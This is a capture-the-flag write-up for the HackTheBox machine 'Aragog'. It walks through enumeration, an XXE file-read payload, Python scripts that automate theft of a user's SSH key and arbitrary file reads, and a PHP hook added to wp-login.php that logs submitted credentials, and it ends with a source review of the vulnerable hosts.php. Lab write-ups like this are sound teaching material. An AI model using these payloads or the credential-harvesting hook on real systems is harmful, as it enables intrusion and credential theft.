

Aragog was a Medium Linux box from HackTheBox which give me the chance to play a little more with XEE, to understand better how it works. That was the first shell, the root we get with pspy catching a process to login the app with admin credentials.

The auto exploit in python is in the body of the post.

Hope you enjoy and learn something new!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.78
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 21

Seems that we have a ftp open, so let's try to see what we can get there

We login as anonymous and get the test.txt file


Humm... a subnet file. Ok let's continue to port 80.

## Port 80

We try to open it on the browser


Default apache page, we run gobuster to find anything in it

We run with -x php,html to look for this files too

```sh
gobuster dir -u http://10.10.10.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html
```


We find one interesting which is the `hosts.php`

We open it on the browser


We see what seems to be a number of possible hosts

We send it to burp


And try to send the data from ftp in it as POST request

And we see that is parsing it


So it is typical for XEE

We start looking for XEE payload and found this post from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml) and this one which [Explains](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection) XEE attack very well detailed.

So, the payload is this

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

We adapt to our cenario and read the /etc/passwd

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<details>
    <subnet_mask>&file;</subnet_mask>
    <test></test>
</details>
```

And we see that we can read files


And we get the ssh key from florian


And we logged in a ssh session


Now, let's automate it.

# Auto Shell Florian

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_florian
```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto XEE in Aragog to retrieve the ssh key from florian user and auto connect

import argparse
import requests
import sys
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

#Function to XEE the Florian ssh key
def getXEEKey(rhost):
    url = "http://%s:80/hosts.php" %rhost
    data = '''<?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (ANY)>
    <!ENTITY file SYSTEM "file:///home/florian/.ssh/id_rsa">
    ]>

    <details>
        <subnet_mask>&file;</subnet_mask>
        <test></test>
    </details> '''
    florian_key = r.post(url, data=data, proxies=proxies)
    print("[+] Let's get the florian ssh key !!! [+]")
    index = florian_key.text.find("for")
    global key
    key = florian_key.text[index:index+1683].removeprefix('for ').strip()

#Function to connect ssh on the box
def connectSSH(rhost,key):
    print("[+] Done! Now Let's connect!!!! [+]")
    ssh_key = '/tmp/rsa_key'
    f = open(ssh_key, 'w'); f.write(key); f.close()
    os.system('chmod 400 /tmp/rsa_key')
    os.system('sleep 1')
    os.system('ssh -i /tmp/rsa_key florian@%s' %rhost)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Let's get the ssh key
    getXEEKey(rhost)
    # Let's connect
    connectSSH(rhost,key)

if __name__ == '__main__':
    main()
```

We also can do a script to get any archive on the server


auto_lfi_aragog.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto XEE in Aragog to retrieve files

import argparse
import requests
import sys
import os
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

#Function to XEE files
def getXEEKey(rhost,file):
    print("[+] Let's get the file for you !!! [+]")
    url = "http://%s:80/hosts.php" %rhost
    xml_xee = '''<?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (ANY)>
    <!ENTITY file SYSTEM "file:///%s">
    ]>

    <details>
        <subnet_mask>&file;</subnet_mask>
        <test></test>
    </details> ''' %file
    lfi_file = r.post(url, data=xml_xee, proxies=proxies)
    if lfi_file.status_code == 200:
        match = re.search(r'for .*', lfi_file.text, re.DOTALL).group(0)
        print(match.removeprefix('for ').strip())
    else:
        print("[+] Sorry, file does not exist. Try with another file !! [+]")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='File to be read', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    file = args.file

    '''Here we call the functions'''
    # Let's get the ssh key
    getXEEKey(rhost,file)

if __name__ == '__main__':
    main()
```

Now, let's get root

# Florian --> Root

We see a WordPress page running on local host


We add aragog.htb on our /etc/hosts to get it


We could try a lot of stuff here. Get the credentials to access the mysql instance and try to crack the hashes. But nothing will work, the most important part here is that we can see a post which indicates what we must do next


Seems that we have a cron or something running on the box.

For this I'll use [pspy](https://github.com/DominicBreuker/pspy) we download a [Release](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0)

And download it to the Aragog box using Python SimpleHTTPServer


And execute it, we wait almost five minutes and something interesing pop up on our screen


Seems that it's running a auto login on wp-login.php. It indicates that we need to intercept the request and get the credentials when it attempts to login

Since the login is a POST request to wp-login.php file in WordPress, I will modify that page so that it dumps any credentials submitted to it to file, by adding the lines under <?php. I got this part from 0xdf.

```php
<?php
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/0x4rt3mis", "a");
fwrite($fff, $rrr);
fclose($fff);
```


I wait the cron runs again


And got the creds `!KRgYs(JFO!&MTr)lf`

Now, just become root with su


Done. We can do more with this box, but for the lack of time it's good.

# Source Code Analysis

We see the files that is running on the cron

**restore.sh**

We see that it's removing the /var/www/html/dev_wiki/ and replacing it again. Just a clean up

```sh
rm -rf /var/www/html/dev_wiki/
cp -R /var/www/html/zz_backup/ /var/www/html/dev_wiki/
chown -R cliff:cliff /var/www/html/dev_wiki/
chmod -R 777 /var/www/html/dev_wiki/
```


**wp-login.py**

Here we see that it is logging in the app with the credentials, and making a POST request with the credentials.

```py
import requests

wp_login = 'http://127.0.0.1/dev_wiki/wp-login.php'
wp_admin = 'http://127.0.0.1/dev_wiki/wp-admin/'
username = 'Administrator'
password = '!KRgYs(JFO!&MTr)lf'

with requests.Session() as s:
    headers1 = { 'Cookie':'wordpress_test_cookie=WP Cookie check' }
    datas={ 
        'log':username, 'pwd':password, 'wp-submit':'Log In', 
        'redirect_to':wp_admin, 'testcookie':'1'  
    }
    s.post(wp_login, headers=headers1, data=datas)
    resp = s.get(wp_admin)
    print(resp.text)
```


Lastly we see the `hosts.php` file which allowed us to the initial shell on the box


```php
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $details = simplexml_import_dom($dom);
    $mask = $details->subnet_mask;
    //echo "\r\nYou have provided subnet $mask\r\n";

    $max_bits = '32';
    $cidr = mask2cidr($mask);
    $bits = $max_bits - $cidr;
    $hosts = pow(2,$bits);
    echo "\r\nThere are " . ($hosts - 2) . " possible hosts for $mask\r\n\r\n";

    function mask2cidr($mask){
         $long = ip2long($mask);
         $base = ip2long('255.255.255.255');
         return 32-log(($long ^ $base)+1,2);
    }

?>
```